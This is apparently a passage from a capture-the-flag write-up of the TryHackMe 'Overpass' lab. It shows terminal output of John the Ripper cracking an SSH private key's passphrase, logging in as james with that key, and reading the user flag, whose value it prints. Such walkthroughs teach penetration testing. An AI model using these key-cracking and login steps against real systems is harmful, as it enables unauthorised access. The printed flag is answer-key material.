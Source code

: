 ```
└─$ john --show priv_key.hash                                                                                                                      1 ⨯ 1 ⚙
priv_key:james13

1 password hash cracked, 0 left
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass]
└─$                                                                                                                                                    1 ⚙

```

The password is `james13`.

### Access the system
With the ssh-key we got access to the system and get the first flag:
```
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass]
└─$ ssh -i priv_key james@10.10.86.132
Enter passphrase for key 'priv_key': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Sep  4 21:08:39 UTC 2023

  System load:  0.08               Processes:           87
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 12%                IP address for eth0: 10.10.86.132
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ ls -al 
total 48
drwxr-xr-x 6 james james 4096 Jun 27  2020 .
drwxr-xr-x 4 root  root  4096 Jun 27  2020 ..
lrwxrwxrwx 1 james james    9 Jun 27  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james  220 Jun 27  2020 .bash_logout
-rw-r--r-- 1 james james 3771 Jun 27  2020 .bashrc
drwx------ 2 james james 4096 Jun 27  2020 .cache
drwx------ 3 james james 4096 Jun 27  2020 .gnupg
drwxrwxr-x 3 james james 4096 Jun 27  2020 .local
-rw-r--r-- 1 james james   49 Jun 27  2020 .overpass
-rw-r--r-- 1 james james  807 Jun 27  2020 .profile
drwx------ 2 james james 4096 Jun 27  2020 .ssh
-rw-rw-r-- 1 james james  438 Jun 27  2020 todo.txt
-rw-rw-r-- 1 james james   38 Jun 27  2020 user.txt
james@overpass-prod:~$ cat user.txt 
thm{65c1aaf000506e56996822c6281e6bf7}
james@overpass-prod:~$ 
```
